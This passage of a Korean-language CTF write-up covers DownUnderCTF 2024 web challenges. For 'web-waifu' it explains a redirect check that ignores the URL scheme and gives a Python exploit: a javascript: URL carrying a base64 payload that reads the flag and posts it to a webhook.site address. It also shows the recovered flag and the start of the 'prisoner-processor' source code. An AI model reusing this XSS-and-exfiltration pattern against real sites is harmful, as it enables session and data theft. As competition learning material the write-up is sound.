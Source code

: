 ```typescript
    res.send(BROWSER_REDIRECT.replace("{REDIRECT}", encodedRedirect));
}

export { sendError, sendResponse, sendBrowserRedirectResponse }
```        
다음으로, 리다이렉션 기능이 존재하는데 Hostname이 동일한지 체크하고 리다이렉션을 허용한다. 하지만, scheme에 대한 검증이 이루어지고 있지 않아 `javascript://`를 사용해 스크립트를 실행시킬 수 있는 취약점이 발생한다. `fetch('/flag/get')` 요청을 보내 플래그 값을 읽은 후, 웹훅으로 전달해주면 된다.     
         
### Exploit Code     
```python
import base64

b64 = base64.b64encode(b"fetch('/flag/get').then(r => r.text()).then(text=>fetch('https://webhook.site/3e37a354-b43f-4e0a-8bdc-2bf1a5293e9f',{method:'POST',body:text}))").decode()

bot_url = "https://web-waifu-ea0bd3796efa3446.2024.ductf.dev"

url = "/auth/?bypass=" + "%61" * 400 + f"&redirectTo=javascript://127.0.0.1:3000/%250aeval(atob(%2522{b64}%2522))"
print(url) 
```       
       
### Flag 
DUCTF{t0kN_tOOooOOO0Kn_tooKN_t000000000Kn_x60_OwO_w0t_d15_n0_w4F?????questionmark???}      
       

<a id="prisoner-processor"></a>           
      
# prisoner-processor     
           
17 solved / 325 pts      
        
```typescript
import { Hono } from 'hono';
import { bodyLimit } from 'hono/body-limit';
import { zValidator } from '@hono/zod-validator'
import { z } from 'zod';
import { createHmac, randomBytes } from 'crypto';
import { readFileSync, existsSync } from 'fs';
import { stringify } from 'yaml';

const SECRET_KEY = randomBytes(64);
const SIGNED_PREFIX = "signed.";
const OUTPUT_YAML_FOLDER = "/app-data/yamls";
const BANNED_STRINGS = [
  "app", "src", ".ts", "node", "package", "bun", "home", "etc", "usr", "opt", "tmp", "index", ".sh"
];

const app = new Hono();

const cache: any = {};

const getSignature = (data: any): string => {
  const toSignArray = Object.entries(data).map(([k, v]) => `${k}=${v}`);
  toSignArray.sort();
  return createHmac('sha256', SECRET_KEY)
    .update(toSignArray.join("&"))
    .digest("hex");
};

const hasValidSignature = (data: any, signature: string): boolean => {
  const signedInput = getSignature(data);
  return signedInput === signature
};
```